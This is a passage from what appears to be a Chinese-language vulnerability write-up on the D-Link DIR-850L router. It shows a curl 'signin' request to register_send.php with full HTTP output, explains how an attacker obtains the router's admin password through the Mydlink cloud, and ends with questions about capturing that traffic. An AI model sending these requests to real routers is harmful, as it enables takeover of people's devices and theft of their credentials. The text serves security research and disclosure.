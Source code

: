 第二个请求 (signin)路由器会将登录Mydlink云端，用于判断注册请求是否申请成功：

```python
-----------------------------------------------------------------------------------------------------------------------
curl -v  -H 'Cookie:uid=paYh93tqw4' -d 'act=signin&lang=zh_CN&outemail=EMAIL_ADDR&passwd=PASSWD_FOR_LOGIN&mydlink_cookie=' http://192.168.100.1/register_send.php
*   Trying 192.168.100.1...
* Connected to 192.168.100.1 (192.168.100.1) port 80 (#0)
> POST /register_send.php HTTP/1.1
> Host: 192.168.100.1
> User-Agent: curl/7.47.0
> Accept: */*
> Cookie:uid=paYh93tqw4
> Content-Length: 85
> Content-Type: application/x-www-form-urlencoded
> 
* upload completely sent off: 85 out of 85 bytes
< HTTP/1.1 200 OK
< Server: Linux, HTTP/1.1, DIR-850L Ver 1.14WW
< Date: Mon, 11 Dec 2017 12:12:17 GMT
< Transfer-Encoding: chunked
< Content-Type: text/xml
< 
<?xml version="1.0"?>
<register_send>
	<result>success</result>
	<url>https://mp-cn-portal.auto.mydlink.com</url>
</register_send>
-----------------------------------------------------------------------------------------------------------------------
```
按照代码逻辑，应该需要发送第三个包'act=adddev'，这个包会将路由器的web管理密码发送给Mydlink云端，这样攻击者访问云端时才能获取到该路由器的管理密码。但实际测试中我们只需要发送前两个包就能完成注册，也能获取到web管理密码，佐证如下：

![login](http://wx1.sinaimg.cn/mw690/a750c5f9gy1fmd4pzeyl5j216h0mzjzm.jpg)

#### 总结与思考

:question:如何抓取路由器发往Mydlink云端的数据包？

首选当然是登录到路由器上直接抓取WAN口网卡，但测试版本固件未直接启动登录服务，只能通过利用![路由器的其他漏洞](https://github.com/TheBeeMan/DLink-850L-Multiple-Vulnerabilities-Analysis)迫使其开放telnet服务，但此种利用方式并不稳定，我测试时仍然无法登录到目标路由器上。

其次，搭建二建路由环境，在路由器的上级网关处抓包，获取路由器发往Mydlink云端的http/https协议数据，在实际抓包时我设置了dns+http+https的过滤器用于获取三种协议的流量，结果发现存在解析Mydlink域名的数据，但是未抓到https数据包，故我认为抓包失败。

再者，镜像dump，在目标路由器和其上级网关之间复制流量镜像，通过laptap这种小设备就能做到，很可惜同样未捕获到。

最后，这个实验还需要重新操作N次，目的是实现Mydlink协议的流量捕获。

:question:为什么交互中缺少'act=adddev'数据包仍然可以获取管理密码？

按照代码逻辑，应该需要发送第三个包'act=adddev'，这个包会将路由器的web管理密码发送给Mydlink云端，这样攻击者访问云端时才能获取到该路由器的管理密码。
实际测试缺少这个数据包仍然利用成功，说明路由器通过其他方式发送出了自己的管理密码到云端，可能是某种隐式的方式。要论证，必须捕获完整的通信流量，又回到上个问题了。
